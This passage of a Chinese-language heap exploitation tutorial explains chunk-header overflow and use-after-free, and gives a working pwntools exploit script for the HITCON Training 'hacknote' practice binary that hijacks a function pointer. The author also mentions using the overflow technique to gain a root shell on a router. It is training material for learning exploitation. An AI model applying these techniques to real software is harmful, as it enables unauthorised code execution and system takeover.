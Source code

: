```
Chunk 1: 0x555555758b80     Size: 0x70

Chunk 5 @ 0x555555758b80     Contains: 15935728
```

这种攻击的方法主要是通过溢出，导致紧邻的chunk的头部被修改，包括标志位，以及前一个chunk的大小的修改，使得紧邻的chunk被free的时候能够造成错误的把一个chunk 回收，这样在后续的malloc中就可以直接修改这个错误回收的chunk的数据。这是一种比较常用的攻击手法，笔者在路由器的漏洞挖掘中曾经实用过这种攻击方法，并且成功拿到了root shell。



## UAF漏洞

UAF就是在释放之后仍然实用chunk，这个天然就是可以修改已经free的chunk。<br>
实例采用一个经典的UAF练习[hitcon training](https://github.com/scwuaptx/HITCON-Training/blob/master/LAB/lab10/hacknote.c)<br>
利用代码

```
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = "debug"

p = process('./hacknote')
elf = ELF('./hacknote')

magic = 0x08048986

def create(size,content):
    p.recvuntil(":")
    p.sendline(str(1))
    p.recvuntil(":")
    p.sendline(str(size))
    p.recvuntil(":")
    p.send(content)

def delete(idx):
    p.recvuntil(":")
    p.send(str(2))
    p.recvuntil(":")
    p.sendline(str(idx))

def print_note(idx):
    p.recvuntil(":")
    p.sendline(str(3))
    p.recvuntil(":")
    p.sendline(str(idx))


create(16,'aa')
create(16,'bb')
delete(0)
delete(1)
create(8,p32(magic))
print_note(0)
p.interactive()
```

